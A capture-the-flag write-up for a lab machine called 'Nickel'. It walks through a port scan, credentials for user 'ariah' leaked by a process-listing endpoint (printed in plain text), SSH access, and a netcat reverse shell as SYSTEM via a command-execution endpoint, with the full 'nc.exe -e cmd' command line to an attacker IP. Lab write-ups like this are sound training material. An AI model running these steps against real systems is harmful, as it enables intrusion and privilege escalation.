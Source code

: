 # Nickel

### Port Scan
![port-scan](images/port-scan.png)

## Procedure
🔎 Port 8089 is hosting a web page with some actions.\
![dashboard](images/dashboard.png)

🔎 The actions are mapped with an IP of a different host.\
![dashboard-source](images/dashboard-source.png)

🔎 Port 33333 is also open on this host. The response indicate that GET request
may not be enabled for the endpoints.\
![get-request](images/get-request.png)

🔑 Using POST requests to list running processes expose a command with the
credentials of the user "ariah" and her password which is base64-encoded
`ariah:NowiseSloopTheory139`.\
![running-procs](images/running-procs.png)

🔎 Connecting to the server via ssh to get access as ariah.\
![user-info](images/user-info.png)

🏳 User flag.\
![user-flag](images/user-flag.png)

🔎 The user doesn't have access to the system information.\
![system-info](images/system-info.png)

🔎 Other information found in the `list-running-procs` endpoint was the location
of some scripts.\
![web-scripts](images/web-scripts.png)

🔎 Downloading and inspecting them reveal that port 80 may be running a web
server with an endpoint to execute commands.\
![script-comment](images/script-comment.png)
![script](images/script.png)

🔎 It seems that the port is actively listening to connections.\
![netstat](images/netstat.png)

🔎 The port is running the script as System.\
![local-server](images/local-server.png)

🔎 Upload a netcat binary.\
![upload-netcat](images/upload-netcat.png)

💀 With the URL-encoded `C:/temp/nc.exe -e cmd 192.168.49.97 80` command spawn a
reverse shell as System.\
![reverse-shell](images/reverse-shell.png)

🏴 Administrator flag.\
![admin-flag](images/admin-flag.png)